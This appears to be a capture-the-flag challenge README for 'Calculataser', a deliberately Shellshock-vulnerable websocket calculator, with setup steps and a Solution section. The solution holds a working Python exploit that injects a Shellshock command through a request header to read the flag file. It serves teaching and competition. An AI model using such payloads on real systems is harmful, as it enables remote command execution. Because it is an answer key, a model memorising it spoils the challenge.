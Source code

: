 # Calculataser

```text
We've spun up an old websocket arbitrary precision calculator from 2014 just bc we can, obviously.

We made a client for you. Give it a whirl!
```

## Setup

1. `docker build -t calculataser .`
2. `docker run --rm -p 3012:3012 -d calculataser`

**We MUST change the client to use the target server address/domain before release**

## Brief Dev Description

A websocket server which invokes bc in a manner which is vulnerable to shellshock (CVE-2014-6271). Users are permitted
to add their own line length environmental variable, which can be used to invoke commands via shellshock.

## Solution

It's websocket shell time.

```python
import websocket

if __name__ == '__main__':
    ws = websocket.WebSocket()
    ws.connect("ws://172.17.0.2:3012/", header=["BC_LINE_LENGTH: () { :; }; /bin/cat /root/flag.txt"])

    ws.send("1 + 5\n")

    result = ws.recv()
    print("Received '%s'" % str(result.decode("utf-8")))
    ws.close()
```

Note that the injection occurs within the BC_LINE_LENGTH request header. This is not triggerable from a browser, I
promise.

## Possible Difficulty Enhancements

 - It would be possible to configure a response for `OPTIONS` that specifies that the header may be provided, but don't
tell the user. This might be considered... unfair.
